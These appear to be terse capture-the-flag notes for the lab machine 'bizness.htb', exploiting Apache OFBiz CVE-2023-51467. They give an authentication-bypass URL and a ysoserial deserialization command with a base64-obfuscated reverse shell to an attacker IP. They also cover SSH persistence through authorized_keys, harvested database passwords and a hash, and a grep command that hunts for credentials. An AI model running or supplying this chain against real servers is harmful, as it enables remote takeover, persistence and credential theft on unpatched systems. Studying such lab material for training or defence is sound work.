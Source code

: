 # ip
10.10.11.252

# cve-2023-51467

# url
https://bizness.htb/webtools/control/xmlrpc/?USERNAME=&PASSWORD=&requirePasswordChange=Y

# a modif
java -jar ysoserial-all.jar CommonsBeanutils1 "bash -c {echo,c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNDAvNDQ0NCAwPiYx}|{base64, -d}|{bash, -i}| base64 | tr -d '\n'

# connection ssh
~/.ssh/
touch ~/.ssh/authorized_keys
ssh-keygen -f mykey
chmod 600 mykey
echo "<mykey.pub>" >> ~/.ssh/authorized_keys
ssh -i mykey ofbiz@bizness.htb

# pass postgres.env
POSTGRES_PASSWORD="20wganpfDASBtBXY7GQ6"

# db credential
OFBIZ_POSTGRES_HOST=db

OFBIZ_POSTGRES_OFBIZ_DB=ofbizmaindb
OFBIZ_POSTGRES_OFBIZ_USER=ofbiz
OFBIZ_POSTGRES_OFBIZ_PASSWORD="Ab6SqDD2YM2lmEsvao-"

OFBIZ_POSTGRES_OLAP_DB=ofbizolapdb
OFBIZ_POSTGRES_OLAP_USER=ofbizolap
OFBIZ_POSTGRES_OLAP_PASSWORD="P7TFUtQHSuvha8gSxMME"

OFBIZ_POSTGRES_TENANT_DB=ofbiztenantdb
OFBIZ_POSTGRES_TENANT_USER=ofbiztenant
OFBIZ_POSTGRES_TENANT_PASSWORD="4oXET73QGriblUejjbvR"

# sha-1
{SHA}47ca69ebb4bdc9ae0adec130880165d2cc05db1a

# grep enumeration linux
grep --color=auto -rnw -iIe "PASSW\|SHA" --color=always 2>/dev/null